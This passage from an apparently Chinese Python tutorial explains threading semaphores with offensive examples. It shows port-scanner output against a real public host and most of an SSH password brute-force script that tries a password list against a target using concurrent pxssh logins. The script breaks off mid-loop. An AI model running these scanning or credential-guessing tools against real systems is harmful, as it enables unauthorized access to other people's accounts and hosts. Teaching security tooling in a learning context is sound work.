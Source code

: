 ```
    portScan(tgtHost, args)

if __name__ == '__main__':
    main()
```


输出示例：

> hacker git:(master) ✗ python scan2.py -H
[www.baidu.com](http://www.baidu.com) -p 22  
>  [+] Scan Results for:103.235.46.39  
>  Scanning port22  
>  [-]22/tcp close

在这里Semaphore用来控制同一个线程在屏幕上的输出是连续的，不至于线程的输出相互交叉，从而导致不可读。

类似的还有`BoundedSemaphore`。  
示例代码：


```
# coding=UTF-8
from pexpect import pxssh
import optparse
import time
import threading

maxConnections = 5
connection_lock = threading.BoundedSemaphore(value=maxConnections)
Found = False
Fails = 0

def connect(host, user, password, release):
    global Found, Fails
    try:
        s = pxssh.pxssh()
        s.login(host, user, password)
        print('[+] Password Found: ' + password)
        Found = True
    except Exception as e:
        if 'read_nonblocking' in str(e):
            Fails += 1
            time.sleep(5)
            connect(host, user, password, False)
        elif 'synchronize with original prompt' in str(e):
            time.sleep(1)
            connect(host, user, password, False)
    finally:
        if release:
            connection_lock.release()

def main():
    parser = optparse.OptionParser('usage%prog '+'-H <target host> -u <user> -f <password list>')
    parser.add_option('-H', dest='tgtHost', type='string', help='specify target host')
    parser.add_option('-f', dest='passwdFile', type='string', help='specify password file')
    parser.add_option('-u', dest='user', type='string', help='specify the user')
    (options, args) = parser.parse_args()
    host = options.tgtHost
    passwdFile = options.passwdFile
    user = options.user
    if host == None or passwdFile == None or user == None:
        print(parser.usage)
        exit(0 )
    fn = open(passwdFile, 'r')
    for line in fn.readlines():
```